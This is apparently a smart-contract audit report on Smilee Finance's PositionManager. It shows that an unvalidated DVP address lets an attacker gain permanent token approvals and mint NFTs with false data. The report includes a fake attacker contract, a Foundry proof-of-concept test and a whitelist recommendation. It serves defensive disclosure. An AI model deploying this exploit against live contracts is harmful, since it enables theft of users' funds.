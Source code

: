 Low Mauve Crab

medium

# Users can approve unlimited amounts of baseToken (and any other token), and also can mint incorrect PositionManager NFTs, by providing an arbitrary DVP address

## Summary
There is no input validation for the DVP address provided to `PositionManager::mint()`. A user can provide a malicious contract address, allowing them to gain large amounts of permanent baseToken approval from the PositionManager, and also mint PositionManager NFTs which contain incorrect information.

## Vulnerability Detail
In `PositionManager::mint()`, the DVP contract used is obtained via:

```solidity
IDVP dvp = IDVP(params.dvpAddr);
```

Then, it transfers `obtainedPremium` from the caller to itself:
```solidity
baseToken.safeTransferFrom(msg.sender, address(this), obtainedPremium);
```

Then later on, the PositionManager gives baseToken approval to this contract:
```solidity
baseToken.safeApprove(params.dvpAddr, obtainedPremium);
```

After that, it refunds the user:
```solidity
if (obtainedPremium > premium) {
    baseToken.safeTransferFrom(address(this), msg.sender, obtainedPremium - premium);
} 
```
Note that the values of `obtainedPremium` and `premium` are obtained from the DVP which is arbitrarily provided by the attacker, so they can manipulate these values as they wish.

In the end, they mint a new PositionManager NFT, gain approval to baseTokens from the PositionManager, and all the funds used would be refunded within the same transaction.

However this issue is blocked by another issue (submitted in another report): the fact that the refund will always revert since it uses `safeTransferFrom` which requires approvals, but the PM never gave approvals to itself. But when that issue is fixed, (by changing `safeTransferFrom` to `safeTransfer`), the refunds will work, enabling this exploit.

## Impact
A malicious user can gain large amounts of permanent baseToken approval from the PositionManager, and also mint PositionManager NFTs which contain incorrect information. This means that they can set up a bot that steals any baseToken (or any other token they choose) that ends up in the PositionManager's possession.

## Code Snippet
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/3241f1bf0c8e951a41dd2e51997f64ef3ec017bd/smilee-v2-contracts/src/periphery/PositionManager.sol#L94

## Proof of Concept
<details>
<summary>Fake DVP Contract provided by attacker</summary>

```solidity
contract FakeDVP {
    address private immutable bt;
    constructor(address _bt) {
        bt= _bt;
    }

    function baseToken() external view returns(address) {
        return bt; // the baseToken
    }

    function mint(address a, uint256 s, uint256 nu, uint256 nd, uint256 ep, uint256 ms, uint256 id) external pure returns(uint256) {
        return 1; // this is the 'premium' from minting
    }

    function premium(uint256 a, uint256 b, uint256 c) external pure returns (uint256, uint256) {
        return (50000e6, 0); // this returns the value for 'obtainedPremium'
    }

    function getEpoch() external view returns(Epoch memory) {
        uint256 z = 1;
        return Epoch(z,z,z,z,z); // just returns an arbitrary epoch
    }
}
```
</details>

<details>
<summary>Foundry Test POC</summary>

```solidity
function test_PM_UnlimitedApproval() public {

        address attacker = makeAddr("attacker");
        FakeDVP fake = new FakeDVP(baseToken);
        deal(baseToken, attacker, 50000e6);

        //NOTE: the below line is added to simulate the fix of another separate critical issue submitted in this audit
        vm.prank(address(pm));
        IERC20(baseToken).approve(address(pm), type(uint256).max); 

        uint256 allowanceBefore = IERC20(baseToken).allowance(address(pm), address(fake));
        console.log(allowanceBefore);
        vm.startPrank(attacker);
        IERC20(baseToken).approve(address(pm), 50000e6);
        (uint256 tokenId, ) = pm.mint(
            IPositionManager.MintParams({
                dvpAddr: address(fake),
                notionalUp: 10 ether,
                notionalDown: 0,
                strike: 55,
                recipient: DEFAULT_SENDER,
                tokenId: 0,
                expectedPremium: 55,
                maxSlippage: 0.1e18,
                nftAccessTokenId: 0
            })
        );
        vm.stopPrank();

        uint256 allowanceAfter = IERC20(baseToken).allowance(address(pm), address(fake));
        
        assertEq(allowanceAfter, 50000e6);

        // attacker spent 1 wei, to get 50k worth of approvals
        assertEq(IERC20(baseToken).balanceOf(address(attacker)), 50000e6 - 1);
    }
```
</details>

## Tool used

Manual Review

## Recommendation
Maintain a mapping in the PositionManager (address to boolean) which stores active DVP addresses. Then revert if the DVP address provided maps to a false boolean.
